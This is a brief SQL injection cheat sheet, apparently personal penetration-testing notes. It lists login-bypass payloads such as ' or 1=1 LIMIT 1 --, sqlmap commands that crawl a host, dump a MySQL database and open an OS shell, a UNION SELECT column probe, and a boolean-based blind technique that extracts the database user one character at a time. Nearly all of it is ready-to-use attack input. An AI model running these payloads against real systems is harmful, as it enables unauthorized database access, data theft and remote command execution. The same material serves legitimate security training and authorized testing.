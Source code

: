 # SQL Injection General Notes

### Testing for Bypasses: 
```
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -
```

### SQLMAP

#### sqlmap crawl  
```
sqlmap -u http://172.21.0.0 --crawl=1
```

#### sqlmap dump database  
```
sqlmap -u http://172.21.0.0 --dbms=mysql --dump
```

#### sqlmap shell  
```
sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell
```

### SQLi

Testing for a row: 
```
http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8
```

### Boolean Based SQLi

`substring()` returns a substring of the given argument. It takes three parameters: the input string, the position of the substring and its length.

- ` or substr(user(), 1, 1) = 'a` -> if true, move onto then letter:
- ` or substr(user(), 2, 1) = 'b`

 Continue until username is revealed. 